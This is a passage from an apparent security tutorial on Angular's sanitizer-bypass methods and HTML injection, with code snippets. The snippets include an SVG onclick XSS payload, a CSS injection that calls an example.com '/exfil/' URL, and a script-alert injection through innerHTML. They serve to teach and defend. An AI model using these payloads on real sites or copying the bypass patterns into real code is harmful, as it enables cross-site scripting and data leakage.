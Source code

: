     //app.component.html
    <p style="border:solid" [innerHtml]="trustedHtml"></p>
    
    //result
    <h1>html tag</h1>
    <svg onclick="alert('bypassSecurityTrustHtml')" style="display:block">blah</svg>
    ```
    
4. `bypassSecurityTrustScript` is used to indicate the given value is safe JavaScript. However, we found its behavior to be unpredictable, because we couldn’t to execute JS code in templates using this method.

    ```jsx
    //app.component.ts
    this.trustedScript = this.sanitizer.bypassSecurityTrustScript("alert('bypass Security TrustScript')");

    //app.component.html
    <script [innerHtml]="trustedScript"></script>

    //result
    -
    ```

1. `bypassSecurityTrustStyle` is used to indicate the given value is safe CSS. The following example illustrates CSS injection:

    ```jsx
    //app.component.ts
    this.trustedStyle = this.sanitizer.bypassSecurityTrustStyle('background-image: url(https://example.com/exfil/a)');

    //app.component.html
    <input type="password" name="pwd" value="01234" [style]="trustedStyle">

    //result
    Request URL: GET example.com/exfil/a
    ```

Angular provides a `sanitize` method to sanitize data before displaying it in views. This method employs the security context provided and cleanses the input accordingly. It is, however, crucial to use the correct security context for the specific data and context. For instance, applying a sanitizer with `SecurityContext.URL` on HTML content does not provide protection against dangerous HTML values. In such scenarios, misuse of security context could  lead to XSS vulnerabilities.

## HTML injection

This vulnerability occurs when user input is bound to any of the three properties: `innerHTML`, `outerHTML`, or `iframe` `srcdoc`. While binding to these attributes interprets HTML as it is, the input is sanitized using `SecurityContext.HTML`. Thus, HTML injection is possible, but cross-site scripting (XSS) is not.

Example of using `innerHTML`:

```jsx
//app.component.ts
import { Component} from '@angular/core';

@Component({
  selector: 'app-root',
  templateUrl: './app.component.html'
})
export class AppComponent{
	//define a variable with user input
  test = "<script>alert(1)</script><h1>test</h1>";
}

//app.component.html
<div [innerHTML]="test"></div>
```